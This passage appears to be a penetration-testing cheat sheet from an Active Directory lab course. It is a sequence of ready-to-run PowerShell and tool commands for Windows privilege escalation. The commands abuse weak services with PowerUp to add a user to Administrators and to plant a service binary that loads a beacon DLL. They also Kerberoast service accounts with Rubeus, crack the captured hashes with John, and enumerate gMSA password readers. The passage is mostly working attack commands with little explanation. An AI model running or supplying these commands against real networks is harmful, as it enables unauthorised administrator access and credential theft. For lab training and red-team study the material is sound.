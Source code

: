     # PowerUp
    . C:\AD\Tools\PowerUp.ps1
    Invoke-AllChecks
    Get-SericeUnquoted -Verbose
    Get-ModifiableServiceFile -Verbose
    # List services that can be configured:
    Get-ModifiableService -Verbose

    Invoke-ServiceAbuse -Name "ALG" 
    Invoke-ServiceAbuse -Name ALG -UserName us\studentuserx -Verbose
    Invoke-ServiceAbuse -Name "ALG" -Command "net localgroup Administrators studentuser41 /add"
    Write-ServiceBinary -Name 'VulnerableSvc' -Command 'c:\windows\system32\rundll32 c:\Users\Public\beacon.dll,Update' -Path 'C:\Program Files\VulnerableSvc'

    net localgroup Administrators

    net.exe stop VulnerableSvc
    net.exe start VulnerableSvc

    ```

### Privilege Escalation - Domain

    ```powershell

    >> Privilege Escalation - Kerberosting

    # Keberoasting
    Get-DomainUser -SPN | select cn, serviceprincipalname
    .\Rubeus.exe kerberoast /stats
    .\Rubeus.exe kerberoast /user:serviceaccount /simple /rc4opsec /outfile:hashes.txt

    # Targeted Kerberosting
    Set-DomainObject -Identity support1user -Set @{serviceprincipalname='us/myspn'}

    # Cracking the password
    C:\AD\Tools\john-1.9.0-jumbo-1-win64\run\john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt

    >> Privilege Escalation - gMSA

    - Step 1. Identify the gMSA account by filtering ObjectClass 
    Get-DomainObject -LDAPFilter '(objectClass=msDS-GroupManagedServiceAccount)'

    - Step 2. Identify pricipal having access to the gMSA account via ADModule
    Get-ADServiceAccount -Filter * -Properties name, ObjectClass
    Get-ADServiceAccount -Identity jumpone -Properties * | select PrincipalsAllowedToRetrieveManagedPassword
